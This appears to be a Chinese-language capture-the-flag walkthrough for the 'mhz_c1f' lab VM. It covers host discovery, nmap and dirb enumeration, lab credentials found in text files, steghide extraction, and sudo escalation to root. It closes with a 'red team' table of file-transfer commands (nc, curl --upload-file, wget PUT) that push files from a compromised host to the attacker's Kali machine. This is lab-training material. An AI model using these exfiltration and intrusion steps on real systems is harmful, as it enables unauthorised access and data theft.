









## mhz_c1f : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| mhz_c1f       | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`



### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache 2.4.29** 服务器



经过 *whatweb* , *dirb* 工具扫描发现没有运行 CMS，并且也找不到其他文件。此外根据作者提示需要枚举路径和隐写

```
You will learn a little about enumeration/local enumeration , steganography.
```

看来在这一步要进行暴力枚举路径，那么我们使用参数 `-X` 来缩减范围。多次尝试发现存在 `notes.txt` 文本（`dirb http://192.168.1.108 -X .txt`）



第一条暂时没什么头绪，第二条给出了两个文件名 `remb.txt`和 `remb2.txt`。访问第一个文件返回内容：`first_stage:flagitifyoucan1234`，判定这是一个账户和密码；访问第二个文件不存在

使用该账户密码通过 ssh 登录系统



该文本并没有提示什么有用信息，不过在 `/home/mhz_c1f/Paintings`路径下存在 4 张图片文件。看到图片又结合作者提示立刻联想到这些图片中存在隐写信息

接下来的步骤很明显，将这些图片传到 Kali 下，使用 *steghide* 工具提取隐藏信息

虚拟机没有安装 Python 环境，不能使用常用的方法了，不过我们可以通过 *nc* 来传文件



在 Kali 端执行下图中的命令



使用 *steghide* 提取隐藏信息，得到一个账户名和密码：`mhz_c1f:1@ec1f`

 

ssh 不能登录，那么就在 *first_stage* 账户下切换到 *mhz_c1f* 账户

### 提权

*mhz_c1f* 具有 sudo 权限，切换到 *root* 账户即可





### 总结

红队中常使用到的 Linux 环境的文件传输技巧

| 工具           | 源主机(发送端)                                               | 宿主机(接收端 \| `192.168.1.112`)            |
| -------------- | ------------------------------------------------------------ | -------------------------------------------- |
| Python2 环境   | `python2 -m SimpleHTTPServer 8088`                           | 浏览器访问即可下载或者使用 *curl* 、*wget*   |
| Python3 环境   | `python3 -m http.server 8088`                                | 浏览器访问即可下载或者使用 *curl* 、*wget*   |
| PHP 5.4+ 环境  | `php -S 0.0.0.0:8088`                                        | 浏览器指定文件名下载或者使用 *curl* 、*wget* |
| Ruby 1.9+ 环境 | `ruby -run -e httpd . -p 8088`                               | 浏览器访问即可下载或者使用 *curl* 、*wget*   |
| *netcat* 工具  | `nc 192.168.1.112 8088 < file.txt`                           | `nc -lvp 8088 > file.txt`                    |
| *curl* 工具    | `curl --upload-file file.txt http://192.168.1.110:8088`      | 搭建支持 PUT 方法的 HTTP 服务器              |
| *wget* 工具    | `wget --method=PUT --post-file=file.txt http://192.168.1.112:8088` | 搭建支持 PUT 方法的 HTTP 服务器              |

